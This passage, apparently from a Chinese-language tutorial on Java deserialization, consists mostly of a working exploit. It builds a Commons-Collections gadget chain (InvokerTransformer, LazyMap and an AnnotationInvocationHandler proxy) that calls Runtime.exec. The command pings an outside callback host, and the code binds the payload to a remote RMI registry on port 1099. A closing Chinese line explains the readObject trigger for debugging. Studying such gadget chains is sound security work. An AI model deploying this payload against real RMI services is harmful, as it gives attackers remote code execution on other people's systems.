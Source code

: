 ```java
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                ),
                new ConstantTransformer(1)
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.lazyMap(map, chainedTransformer);
        Class<?> clazzSink = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazzSink.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);
        Map proxy = (Map) Proxy.newProxyInstance(
                Map.class.getClassLoader(),
                new Class[]{Map.class},
                annotationInvocationHandler);
        InvocationHandler entryInstance = (InvocationHandler) constructor.newInstance(Retention.class, proxy);
        Remote remoteProxy = (Remote) Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class },
                entryInstance);
        return remoteProxy;
    }

    public static void main(String[] args) throws Exception {
        RegistryImpl_Stub registry = (RegistryImpl_Stub) LocateRegistry.getRegistry("192.168.xxx.xxx", 1099);
        registry.bind("xxx",getPayload());
    }
}
```

当反序列化 remoteProxy 时，即调用`remoteProxy.readObject()`，其关联的 InvocationHandler（即 AnnotationInvocationHandler 实例）的 readObject 方法会被调用，下断点调试如下-->

